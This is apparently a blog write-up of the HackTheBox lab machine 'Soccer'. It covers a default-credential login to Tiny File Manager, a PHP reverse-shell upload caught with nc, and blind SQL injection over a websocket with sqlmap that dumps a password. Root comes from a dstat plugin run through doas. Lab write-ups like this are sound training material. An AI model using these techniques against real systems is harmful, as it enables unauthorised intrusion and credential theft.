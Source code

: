 ```yaml
---
layout: post
title: "HTB: Soccer"
author: Andrew Cherney
date: 2023-06-17 11:30:20
tags: htb easy-box linux webapp sqli 
icon: "assets/icons/soccer.png"
post_description: "Rev up that default credential list and reverse shell, since to get www-data you need to find the CMS and abuse both. Next your knowledge of websockets better be up to par, as a middleman server is needed to scrape an SQL database on a websocket. Last and certainly least GTFOBins gives us root."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $nmap -sC 10.10.11.194
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-25 14:17 CST
Nmap scan report for 10.10.11.194
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/soccer/Soccer_front_page" alt="front_page" ext="png" trunc=600 %}

Scanning for more content I find a reference to tiny.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $gobuster dir --url http://soccer.htb/ --wordlist /opt/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/02/25 15:04:46 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```

<h1>User as www-data</h1>

<h2>Default Creds</h2>

![Tiny File Manager](/img/soccer/Soccer_tiny_file_manager.png)

I dig around for a bit before deciding to try some default credentials. For this service admin:admin@123 are the defaults.

![Admin login](/img/soccer/Soccer_admin_login.png)

<h2>Reverse Shell Upload</h2>

Here we can see and interact with uploads on the site. If I head to the tiny/uploads directory I probably have access and can upload a pentestmonkey reverse shell. 

![Shell upload](/img/soccer/Soccer_shell_upload.png)

Now if I head to **http://soccer.htb/tiny/uploads/shell.php** I will get my reverse shell.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.194] 38740
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 21:25:37 up  1:09,  0 users,  load average: 0.04, 0.04, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:/$
```

Slight note, I did notice there was some maintenance happening and the shell would occasionally be removed. 

<h1>User as player</h1>

Using a python http server and wget I transfer over linpeas and see what is out there. But I didnt see anything, and that reminded me of a principle in easy/medium boxes that if it looks out of place or abnormal it's probably important. Cut to port 9091 again, let's revisit this now that we think www-data might be a dead end.

<h2>WebSocket</h2>

I can interact with this as a web socket with websocat. There isnt an official release for Debian so I needed to use [this release for generic linux](https://github.com/vi/websocat/releases/tag/v1.9.0). Then after making the command executable I can attempt to connect to that service.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $./websocat_linux64 ws://soccer.htb:9091 -v
[INFO  websocat::lints] Auto-inserting the line mode
[INFO  websocat::stdio_threaded_peer] get_stdio_peer (threaded)
[INFO  websocat::ws_client_peer] get_ws_client_peer
[INFO  websocat::ws_client_peer] Connected to ws
```

<h2>SQLmap</h2>

Excellent, I have connected to WebSocket. Now in searching for vulnerabilities I found [this blind sqli over websocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html). After much messing around with python libraries, and changing two lines, I managed to get the middleman server working so I can run sqlmap on the target.

Lines changed:

```
ws_server = "ws://soccer.htb:9091/"
	data = '{"id":"%s"}' % message
```

In short the script will set up a local server on port 8081 which will handle all requests to be compliant with the requested data on the websocket. 

```bash
python3 websockpwn.py
sqlmap -u "http://localhost:8081/?id=1" --batch -dbs
.....
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
sqlmap -u "http://localhost:8081/?id=1" --tables soccer_db
.....
[16:59:05] [INFO] retrieved: 
[16:59:23] [ERROR] invalid character detected. retrying..
accou
[17:00:51] [ERROR] invalid character detected. retrying..
nts
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Soccer]
└──╼ $ssh player@soccer.htb
player@soccer:~$ cat user.txt
5d81a3a0800c3-------------------
```

<h1>Root</h1>

<h2>doas</h2>

```bash
player@soccer:~$ find / -perm /4000 2>/dev/null
/usr/local/bin/doas
```

Looking around I can find that doas has a config file:

```bash
player@soccer:/usr/local/bin$ cat ../etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

I search for a dstat directory that I can write in since dstat will likely check there automatically. 

```bash
player@soccer:/usr/local/bin$ find / -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat
/usr/bin/dstat
```

I pick the local share directory and find that GTFOBins has a dstat shell command and I will use that to gain a root shell through doas. 


```bash
player@soccer:/usr/local/share/dstat$ echo 'import os; os.execv("/bin/sh", ["sh"])' > dstat_xxx.py
player@soccer:/usr/local/share/dstat$ doas -u root "/usr/bin/dstat --xxx"
doas: Operation not permitted
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --xxx
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# cat /root/root.txt
ce73f1552a8828------------------
```

